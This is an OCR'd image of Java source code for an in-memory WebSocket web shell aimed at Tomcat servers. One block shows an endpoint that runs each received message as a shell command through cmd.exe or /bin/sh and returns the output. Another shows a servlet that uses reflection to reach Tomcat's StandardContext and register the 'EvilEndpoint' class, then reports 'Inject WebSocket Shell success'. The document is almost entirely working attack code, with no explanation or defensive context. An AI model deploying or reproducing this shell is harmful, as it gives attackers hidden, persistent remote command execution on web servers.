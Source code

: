 ```java
            if (System.getProperty("os.name").toLowerCase().contains("win")) {
                p = new ProcessBuilder("cmd.exe", "/c", message);
            } else {
                p = new ProcessBuilder("/bin/sh", "-c", message);
            }
            Scanner c = new Scanner(p.start().getInputStream()).useDelimiter("\\A");
            o = c.hasNext() ? c.next() : o;
            c.close();
            session.getBasicRemote().sendText(o);
        } else {
            session.getBasicRemote().sendText("404");
        }
    }
}

```
```java
package org.example.Servlets;

import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.websocket.DeploymentException;
import javax.websocket.server.ServerContainer;
import java.io.IOException;
import java.lang.reflect.Field;

public class WebSocketServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        ServletContext servletContext = req.getServletContext();
        StandardContext standardContext = null;
        while (standardContext ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    standardContext = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
        ServerContainer container = (ServerContainer)servletContext.getAttribute(ServerContainer.class.getName());
        try {
            container.addEndpoint(EvilEndpoint.class);
            resp.getWriter().println("Inject WebSocket Shell success");
        } catch (DeploymentException e) {
            throw new RuntimeException(e);
        }
    }
}

```